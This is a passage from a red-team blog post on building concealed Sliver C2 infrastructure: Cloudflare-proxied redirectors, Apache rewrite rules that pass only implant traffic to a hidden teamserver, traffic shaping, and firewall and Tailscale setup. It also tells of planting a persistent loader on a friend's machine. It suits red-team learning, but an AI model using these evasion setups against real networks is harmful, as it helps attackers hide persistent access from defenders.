

## Background

Two distinct moments come to mind when I first considered building my own C2 infrastructure.

The first was when I had just started experimenting with the **Sliver C2 framework**. I had this idea to prank a friend (with their permission, of course). My grand plan? Drop a loader script on their machine and set a registry key that would trigger it on reboot. The script would download and execute shellcode to initiate a connection to my Sliver server. It worked perfectly in local testing, and I was proud of how clean it was.

So, I spun up a Python web server, waited for my opportunity to strike, and it came. With their computer left unlocked, I dropped the script, set the registry key, and waited. Later that day, when I was with them, I checked my listener, expecting a callback. Aaaaaaaaand… nothing.

Later, when debriefing with one of my other red teamers, I realized, in hindsight, that I had lacked consideration for basic networking. Although I had set the IP address correctly, it was my **local** IP on a college campus where I was constantly switching between access points, and because of that, my IP kept changing. Subsequently, the value of public-facing C2 infrastructure for real-world operations beyond isolated lab environments became more than clear to me.

The second moment was during prep for the **Information Security Talent Search (ISTS)** competition. As part of the red team, two teammates and I were responsible for building public-facing C2 infrastructure so we could blend in with legitimate traffic while red teaming other schools. I was excited, as this was exactly the kind of niche I wanted to find myself growing and developing in. But when it came time to actually set up the infrastructure, I found myself frequently confused, falling behind, and frustrated.

Thankfully, as of recently I've had some time to get started on some of my personal projects I've been putting off, my own public C2 being one of them, so I'll walk you through some of what I have so far.

## Theory

### Considerations

Before I began architecting my infrastructure, I did many hours of research on C2 infrastructure by people who are a lot more talented at this than me and came up with a few things to consider:

- The only thing that should be publicly accessible are my redirectors, and even those should be masked to some extent.
- I wanted to explore implementing long haul and short haul C2, utilizing HTTP(S) and DNS traffic.
- I want a really easy way to connect to and manage all of my VPSs.
- Scalability, automation, and redeployment.

With this short checklist in mind, let's take a quick look at each component involved in the infrastructure.

### Terraform

Terraform is an infrastructure-as-code platform that lets you deploy and tear down VMs across a variety of providers from the command line rather than manually setting them up through a web UI. You define your VM specs and configurations (such as firewall rules, SSH keys, and even DNS records through Cloudflare) in `.tf` files, which keeps things consistent across deployments.

### Ansible

Ansible is a configuration management tool that automates server setup after Terraform spins them up. Instead of SSHing into each server and doing everything by hand, you define tasks like installing Apache, creating and deploying your `.htaccess` file, downloading and configuring Sliver, and deploying the contents of your web server in playbooks that you can run against your hosts.

Terraform combined with Ansible is the DevSecOps standard and is very powerful, allowing you to deploy a machine with Terraform and configure it to your exact specifications with Ansible within a matter of minutes. The DevSecOps pipeline for this infrastructure will be covered in part two.

### Teamserver

Your teamserver will be a Virtual Private Server (VPS) running a C2 framework of your choice. In this example, I'll be using Sliver. The purpose of a command and control server is to facilitate a persistent connection between the infected machine and operator to perform post-exploitation tasks.

Different C2 frameworks come with their own set of tools for post-exploitation tasks. In Sliver, this is the armory, which is essentially a package manager that allows an operator to download a variety of third-party and .NET tooling such as Rubeus and Mimikatz.

Running these tools via the armory means the task gets executed in the memory of the process running the beacon instead of as a standalone process that may generate additional signatures and telemetry that a blue team can pick up on. This barely scratches the surface of the functionality a C2 framework can provide for you.

To generate an implant to place on a machine, it usually goes a little something like this:

`generate <mtls>|<http> <ip>|<yourdomainhere.com> --os <win>|<lin> -f <exe>|<shellcode>|<service>`

The above string shows the various ways you can generate an implant for Windows, Linux, as a service, shellcode, or executable, and through connection methods of Mutual TLS and HTTP.

### Redirector

A redirector is a server that sits between an infected host and your teamserver. A well-configured redirector will only forward traffic generated by an implant and forward it to the teamserver, facilitating the connection and protecting the C2 server from probes of scanners and blue teamers alike. If an analyst takes a look at network traffic from an infected host, instead of seeing the IP address of your teamserver, it's the IP address of your redirector. Now... if your gears are turning, you may ask something like... "If this redirector simply forwards traffic to my teamserver, wouldn't blocking the IP address of the redirector kill the connection between the infected host and my C2?" and the answer is yes! Redirectors have many moving parts and use cases; a single misconfigured redirector does not solve the attribution problem, however many well-configured ones might.

#### IP Attribution

To be frank, if a defender is onto you they're likely not blocking just your IP, they're likely blocking your entire domain; however, an IP address that resolves to a known, reputable address space is less likely to be scrutinized than one that belongs to a VPS hosting provider, both by detection engines and analysts. Cloudflare is a great way to mask the IP address of our redirector while making it attributable to a reputable address space. By placing our redirector domain behind Cloudflare's proxy, the IP address an analyst sees resolving from our domain belongs to Cloudflare's network, shared with millions of other legitimate sites, and our actual redirector's IP is never publicly exposed.

Setting this up is fairly simple. All you need is a Cloudflare account and a domain (or a few) that you either buy through Cloudflare or another registrar.

If your domain was bought via a registrar different from Cloudflare, head to the Cloudflare homepage ➔ Domains ➔ Overview ➔ then Add Domain.


After Add Domain, select Connect a Domain.


Enter your domain, and allow Cloudflare to import your DNS records.


Review your DNS records against the information provided by your registrar.


Finally, follow the instructions to update your nameserver on the platform you registered the domain.


Once the changes to the nameserver have been verified (which can take up to 24 hours), you can manage your DNS records through Cloudflare, and proxying your DNS records through Cloudflare becomes as simple as a click of a button. All you have to do is click Add Record, add an A record, and flip the switch to turn proxy status on. Afterwards, any traffic from your domain will originate from Cloudflare-registered IP addresses.


#### Filtering Logic

Now that we've solved the IP address attribution problem and the IP address of our redirector comes from a trusted range, we need to make sure that only traffic meant for our C2 server is redirected to the C2 server. All other traffic should present the visitor with a legitimate-looking web page.

This way, if a defender is looking at the logs, sees outbound connections to example.com, and sees that example.com resolves to a trusted namespace, they might want to further determine whether or not the website is malicious. When they browse to it, the website looks completely normal, so they're more likely to categorize the traffic as normal user activity rather than something inherently malicious.

We'll achieve this by creating an Apache config server-side on our redirector with rules that, if all conditions are met, forward traffic to our C2 server. If any condition fails, the visitor is instead served our web page with benign content. Before we start writing our rules, we need to look at what an HTTP C2 profile looks like for Sliver to understand what we'll be writing our config around.

```json
{
  "implant_config": 
  {
    "user_agent": "",
    "chrome_base_version": 106,
    "macos_version": "10_15_7",
    "nonce_query_args": "abcdefghijklmnopqrstuvwxyz",
    "url_parameters": null,
    "headers": null,
    "nonce_query_length": 1,
    "nonce_mode": "UrlParam",
    "max_files": 4,
    "min_files": 2,
    "max_paths": 4,
    "min_paths": 2,
    "max_path_length": 4,
    "min_path_length": 2,
    "extensions": [
      "js",
      "",
      "php"
    ],
    "files": [
      "bootstrap",
      "bootstrap.min",
      "jquery.min",
      "jquery",
      "route",
      "app",
      ...
    ],
    "paths": [
      "js",
      "umd",
      "assets",
      "bundle",
      "bundles",
      "scripts",
      ....
    ]
  },
  "server_config": {
    "random_version_headers": false,
    "headers": [
      {
        "name": "Cache-Control",
        "value": "no-store, no-cache, must-revalidate",
        "probability": 100,
        "method": "GET"
      }
    ],
    "cookies": [
      "JSESSIONID",
      "rememberMe",
      "authToken",
      "userId",
      "userName",
      "language",
      ....
    ]
  }
}
```

C2 profiles in Sliver give us a lot of customization options to modify how our implant looks over the wire. Heavy customization of these options is otherwise known as traffic shaping. This is the idea of crafting your implant's network traffic to blend in with legitimate activity so that, to both detection engines and human analysts, it looks indistinguishable from normal web browsing. We'll cover traffic shaping in another section, but first I want to point out the parameters that are useful to us in this config and that we'll be creating our redirector rules around.

_User-Agent_: This is the User-Agent string that the implant will embed in its communications. A blank value allows Sliver to randomly generate a User-Agent based on the operating system of the infected machine. However, setting an explicit, static User-Agent allows us to distinguish traffic from our implant meant for our C2 from benign browsing. You can do this by setting a User-Agent that looks just real enough but is a version of Chrome, macOS, etc. that doesn't exist but looks like it should.

_Paths, Files, Extensions_: Sliver selects from a pool of paths, files, and extensions to construct the URLs used in its GET and POST requests. With a default C2 profile, these pools are extremely broad, making it difficult to write tight filtering rules. Trimming these pools down to a smaller, controlled set gives you control over what your implant's traffic looks like over the wire and lets you write redirect rules that match each component with regex.

Here's an example of an Apache `.htaccess` file that has redirect rules centered around a User-Agent and URL paths, files, and extensions:

```
RewriteEngine On

# Condition 1: Request URI matches our C2 profile's URL structure
RewriteCond %{REQUEST_URI} ^/((js|umd|assets|bundle|bundles|scripts)/){2,4}(bootstrap|bootstrap\.min|jquery\.min|jquery|route|app)\.(js|php)/?$

# Condition 2: User-Agent matches our implant's string
RewriteCond %{HTTP_USER_AGENT} "Mozilla/5\.0 \(Windows NT 10\.0; Win64; x64\) AppleWebKit/537\.36 \(KHTML, like Gecko\) Chrome/132\.0\.0\.0 Safari/537\.36"

# If both conditions are met, proxy to teamserver
RewriteRule ^.*$ https://<TEAMSERVER_IP>%{REQUEST_URI} [P,L]

# Everything else gets redirected to a legitimate site
RewriteRule ^.*$ https://example.com/? [L,R=302]
```

Let's break down what's going on in this `.htaccess` file:
- `RewriteEngine On` enables Apache's `mod_rewrite` module, which lets you inspect incoming HTTP requests and make decisions based on their contents (like the User-Agent or the requested URL).
- `RewriteCond` is a condition that must be true for the `RewriteRule` below it to fire. You can place multiple conditions before a single `RewriteRule`, and all of them must be true before the `RewriteRule` is enacted. In our example, we have two that must both be true before Apache proxies our request to the teamserver.
- `RewriteRule` is the action Apache takes on the incoming request. If all conditions are met and the request matches the defined pattern (in this case `^.*$`, which is regex for "match anything"), the rule executes, proxying any matching request to `https://<TEAMSERVER_IP>` while preserving the original URI with `%{REQUEST_URI}`.
- Flags:
    - `P` tells Apache to forward the request to the teamserver on the client's behalf. The client only ever sees the redirector; the teamserver's address is never exposed.
    - `L` means last; if this rule fires, Apache stops processing any rules below it.
    - `R=302` sends the client an HTTP 302 redirect response to the specified URL. This is used as a catch-all to forward any non-matching requests to a legitimate site.
- Breaking down the URI regex `^/((js|umd|assets|bundle|bundles|scripts)/){2,4}(bootstrap|bootstrap\.min|jquery\.min|jquery|route|app)\.(js|php)/?$`:
    - `^/` matches the start of the URI after the domain.
    - `(js|umd|assets|bundle|bundles|scripts)/` matches any one path segment from our profile's path pool, followed by a forward slash.
    - `{2,4}` requires 2 to 4 of those path segments, corresponding to `min_paths` and `max_paths` in our C2 profile.
    - `(bootstrap|bootstrap\.min|jquery\.min|jquery|route|app)` matches a filename from our profile's file pool.
    - `\.(js|php)` matches one of our profile's extensions.
    - `/?$` allows an optional trailing slash, then end of string.

This way, a request like `/js/assets/bootstrap.min.js` would match, but `/index.html` or `/about` would not.

### Networking

Before we get into a before and after demo, there are some quick networking considerations I wanted to cover.

#### Firewall Rules

C2 frameworks like Sliver have known TLS signatures and default certificates that internet scanners like Shodan and Censys actively index and flag. To prevent your teamserver from being fingerprinted, it's good practice to only accept inbound traffic from your redirector. You can enforce this with `ufw` like so:
```bash
# Default deny all incoming, allow outgoing
sudo ufw default deny incoming
sudo ufw default allow outgoing

# Allow SSH
sudo ufw allow 22/tcp

# Allow inbound HTTP/HTTPS only from the redirector
sudo ufw allow from <REDIRECTOR_IP> to any port 80 proto tcp
sudo ufw allow from <REDIRECTOR_IP> to any port 443 proto tcp

# Enable the firewall
sudo ufw enable
```

#### Tailscale

The above approach works; however, the bulletproof way to make sure your teamserver doesn't get indexed and fingerprinted is to remove it from the internet altogether. We can do this using Tailscale to create a mesh network between all of our VPSs and operator machines. Tailscale gives each machine attached to a "tailnet" a private IP address in the 100.x.x.x space that only other machines on the tailnet can reach. This way, instead of our Apache redirector rules proxying traffic to the teamserver's public IP, they proxy it to its assigned Tailscale IP, and our firewall rules can look something like this:

Teamserver:
```bash
# Default deny all incoming, allow outgoing
sudo ufw default deny incoming
sudo ufw default allow outgoing

# Allow all traffic on the Tailscale interface only
sudo ufw allow in on tailscale0

# Enable the firewall
sudo ufw enable
```

Redirector:
```bash
sudo ufw default deny incoming
sudo ufw default allow outgoing

# Allow HTTP/HTTPS only from Cloudflare's edge servers
for ip in $(curl -s https://www.cloudflare.com/ips-v4); do
    sudo ufw allow from "$ip" to any port 80 proto tcp
    sudo ufw allow from "$ip" to any port 443 proto tcp
done

# Allow all traffic on the Tailscale interface
sudo ufw allow in on tailscale0

sudo ufw enable
```

Without Tailscale, we are exposing SSH to the internet for management, giving implicit trust to our redirector's IP address, which can be spoofed, and needing to update firewall rules every time we burn and rebuild a redirector. With Tailscale, management and proxying happen through a separate `tailscale0` interface backed by an encrypted WireGuard tunnel, meaning traffic is authenticated cryptographically rather than by source IP, and the firewall rules don't reference any specific address, so they survive redeployments without changes.

### Demo

#### Without Proper Setup


Start an HTTP listener and create an HTTP implant pointing to the teamserver's IP address.


Transfer the binary to the target and start the connection.


Observe the teamserver's IP address in the network traffic.


Run `whois` on the IP address and observe its relation to DigitalOcean.

```
indigo@meow:/$ nmap 159.223.149.243
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-08-18 18:27 EDT
Nmap scan report for 159.223.149.243
Host is up (0.028s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT    STATE    SERVICE
22/tcp  open     ssh
80/tcp  open     http
135/tcp filtered msrpc
139/tcp filtered netbios-ssn
445/tcp filtered microsoft-ds
```

An `nmap` scan shows SSH and HTTP open. Shodan would not index the server in time for this demo, but left running, it would eventually be fingerprinted and cataloged.

#### With Proper Setup

